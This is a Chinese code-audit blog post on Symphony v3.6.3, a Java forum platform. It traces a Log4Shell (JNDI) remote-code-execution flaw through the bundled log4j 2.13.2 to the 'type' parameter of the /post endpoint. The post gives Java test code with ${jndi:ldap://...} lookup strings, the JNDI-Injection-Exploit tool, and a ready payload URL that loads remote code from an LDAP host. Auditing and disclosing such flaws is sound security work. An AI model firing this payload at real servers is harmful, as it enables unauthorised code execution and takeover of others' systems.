

# Symphony 代码审计-JAVA - 先知社区

Symphony 代码审计-JAVA

- - -

### 0x00 前言

**产品说明：**  
Symphony 一款用 Java 实现的现代化社区（论坛/BBS/社交网络/博客）平台，实现了面向内容讨论的论坛、面向知识问答的社区、包含了面向用户分享、交友、游戏的社交网络，100% 开源。

**审计源码下载地址：**  
[https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip](https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip)

**环境说明：**  
IntelliJ IDEA 2021.1.3  
JDK1.8.0\_181  
Mysql5.7.26  
SendCloud Mail

### 0x01 环境准备

0.参考官方安装指南 [https://ld246.com/article/1486188905847](https://ld246.com/article/1486188905847)

1.手动新建数据库 b3log\_symphony，按需修改 src/main/resources/local.properties 中的数据库口令配置。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221101659-4b10a822-d05f-1.png)

2.用户注册需要验证邮箱，所以必须先配置好邮件，按需修改 src/main/resources/symphony.properties 中的邮件配置。我使用 SendCloud，apiUser 和 apiKey 可以去 [https://www.sendcloud.net/](https://www.sendcloud.net/) 注册一个账号获取。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221085421-bfe81ff6-d053-1.png)

3.运行 src/main/java/org/b3log/symphony/Server.java#main() 即可启动项目。

### 0x02 开始审计

#### log4j-core:2.13.2

Log4j2 版本 < 2.15.0-rc2 可以通过 JNDI 协议加载远程代码 RCE。Log4j2 日志级别（调用）大于等于系统设置的 intLevel 的时候，log4j2 才会启用日志打印。在配置文件 src/main/resources/log4j2.xml 中 intLevel 被设置为 Info，通过 <root level="Info"> 设置。</root>

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092136-8e841236-d057-1.png)

那么在寻找漏洞利用点时，可以搜索下述 8 种参数可控的 logger。

```plain
package org.b3log.symphony;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class test {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(test.class);
        logger.fatal("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.error("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.warn("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.info("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        //或
        logger.log(Level.FATAL, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.ERROR, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.WARN, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.INFO, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
    }
}
```

在 src/main/java/org/b3log/symphony/processor/ArticleProcessor.java#showAddArticle() 方法里存在一处利用点，当 type 数据不为整型时触发 logger，其中的 type 数据可以通过请求中的 type 参数传入。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221100344-71786dc6-d05d-1.png)

为了代码执行到漏洞点，在构造请求时需要给 tags 参数传入值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221101320-c89fb52c-d05e-1.png)

找到调用该方法的位置，可以看到通过 get 方式请求 /post 即可调用到 showAddArticle()。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221094421-bbc9713e-d05a-1.png)

在本地开启 JNDI 注入工具 JNDI-Injection-Exploit。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095625-6b5709d0-d05c-1.png)

注册一个用户并登录，然后测试触发 RCE。  
payload：`/post?type=${jndi:ldap://127.0.0.1:1389/e3ccbf}&tags=1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095935-dcb86948-d05c-1.gif)

### 参考

symphony 存在命令执行漏洞  
[https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401](https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401)  
从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228 漏洞  
[https://zhuanlan.zhihu.com/p/445834671](https://zhuanlan.zhihu.com/p/445834671)
